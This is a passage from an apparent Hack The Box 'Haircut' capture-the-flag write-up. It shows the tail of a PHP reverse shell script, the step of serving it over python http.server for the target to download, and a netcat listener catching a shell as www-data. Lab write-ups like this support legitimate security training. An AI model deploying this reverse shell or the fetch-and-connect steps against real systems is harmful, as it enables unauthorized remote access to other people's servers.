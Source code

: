 ```php
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
Lets serve this file over port 80 using the `python3 -m http.server` command and then attempt to download it to the server using the`-o` flag:

```bash
┌──(root㉿kali)-[/home/kali/htb/haircut]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [22/Jun/2025 19:16:07] "GET /shell.php HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                    
┌──(root㉿kali)-[/home/kali/htb/haircut]
└─# nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.24] 45482
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:16:40 up  2:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$   
```
Success! We now have a shell as `www-data` on the target machine. Now, lets see if we can escalate our privileges to `root`.
